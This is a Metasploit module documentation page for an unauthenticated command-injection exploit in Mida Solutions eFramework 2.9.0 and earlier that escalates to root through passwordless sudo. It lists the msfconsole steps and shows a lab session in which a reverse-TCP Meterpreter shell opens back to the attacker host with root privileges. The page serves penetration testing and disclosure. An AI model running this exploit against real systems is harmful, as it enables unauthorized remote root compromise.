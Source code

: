 ## Vulnerable Application

This module exploits a command injection vulnerability in
[Mida Solutions eFramework](https://www.midasolutions.com/)
version 2.9.0 and prior.

The `ajaxreq.php` file allows unauthenticated users to inject
arbitrary commands in the `PARAM` parameter to be executed as the
apache user. This user is permitted to execute any command as root
using sudo without providing a password, resulting in privileged
command execution as root.

This module has been successfully tested on Mida Solutions
eFramework-C7-2.9.0 virtual appliance.

Download:

http://ova-efw.midasolutions.com/

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### TARGETURI

Base path to eFramework (Default: `/`)

## Scenarios

```
msf6 > use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set rhosts 172.16.191.123
rhosts => 172.16.191.123
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > check
[+] 172.16.191.123:443 - The target is vulnerable. uid=0(root) gid=0(root) groups=0(root)<br>
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. uid=0(root) gid=0(root) groups=0(root)<br>
[*] Sending stage (3008420 bytes) to 172.16.191.123
[*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.123:42452) at 2020-08-30 08:42:27 -0400
[*] Command Stager progress - 100.00% done (897/897 bytes)

meterpreter > getuid
Server username: root @ eFramework-1 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.16.191.123
OS           : CentOS 7.6.1810 (Linux 3.10.0-957.10.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
